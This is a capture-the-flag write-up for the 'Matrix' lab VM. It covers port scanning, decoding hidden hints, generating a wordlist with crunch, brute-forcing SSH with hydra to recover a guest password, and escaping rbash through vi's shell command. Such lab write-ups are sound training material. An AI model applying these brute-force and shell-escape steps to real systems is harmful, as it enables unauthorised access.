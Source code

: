 # Write-UP Matrix

## Enumeration :

```nmap -p- 192.168.1.19```


## Port 80

It says to follow the white rabbit ... at the top bottom we can find a image of a white rabbit. When we click on it we can see it name :

p0rt_31337.png

## Port 31337

It's another website, same design as the first one. In the source code we find :

```ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg= ```

It's Base 64, which decoded is :

```echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix```

At this point, I started to feel blocked. After minutes of unsuccessful enumeration, I found a file call Cypher.matrix at the root of the website.

## Cypher.matrix

The Cypher is actually braincode, when interprate it gives :

```
You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password
```

This hint tell us cleary to bruteforce guest user.

## Bruteforce

Let's generate the password list using the hint.

```
❯❯ crunch 8 8 -f /usr/share/crunch/charset.lst lalpha-numeric -t k1ll0r@@ -o wordlist.txt
```

then bruteforce on ssh :

```
❯❯ hydra -l guest -P wordlist.txt 172.20.10.12 ssh -t4
[sip]
[22][ssh] host: 172.20.10.12   login: guest   password: k1ll0r7n
```

Found it !

Now, just have to :

```
ssh guest@172.20.10.12
guest@porteus:~$ 
```

## Priv ESC

### rbash

The first thing we have to figured out is how to escape rbash.
I go quite easily on it, cause of vi.
Actually VI is authorized so i do :

```
vi
:!/bin/sh
sh-4.4$ bash
guest@porteus:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/  prog/
```
And then we are not using rbash anymore.





